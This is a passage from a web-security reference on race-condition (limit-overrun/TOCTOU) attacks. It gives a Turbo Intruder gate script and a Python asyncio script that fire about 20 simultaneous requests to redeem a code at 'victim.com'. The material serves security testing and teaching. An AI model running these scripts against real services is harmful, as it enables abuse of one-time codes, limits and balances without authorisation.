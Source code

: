 ```python
def queueRequests(target, wordlists):
    engine = RequestEngine(endpoint=target.endpoint,
                           concurrentConnections=5,
                           requestsPerConnection=1,
                           pipeline=False
                           )
    a = ['Session=<session_id_1>','Session=<session_id_2>','Session=<session_id_3>']
    for i in range(len(a)):
        engine.queue(target.req,a[i], gate='race1')
    # open TCP connections and send partial requests
    engine.start(timeout=10)
    engine.openGate('race1')
    engine.complete(timeout=60)

def handleResponse(req, interesting):
    table.add(req)
```

- **Python - asyncio**

```python
import asyncio
import httpx

async def use_code(client):
    resp = await client.post(f'http://victim.com', cookies={"session": "asdasdasd"}, data={"code": "123123123"})
    return resp.text

async def main():
    async with httpx.AsyncClient() as client:
        tasks = []
        for _ in range(20): #20 times
            tasks.append(asyncio.ensure_future(use_code(client)))

        # Get responses
        results = await asyncio.gather(*tasks, return_exceptions=True)

        # Print results
        for r in results:
            print(r)

        # Async2sync sleep
        await asyncio.sleep(0.5)
    print(results)

asyncio.run(main())
```

## **RC Methodology**

### Limit-overrun / TOCTOU
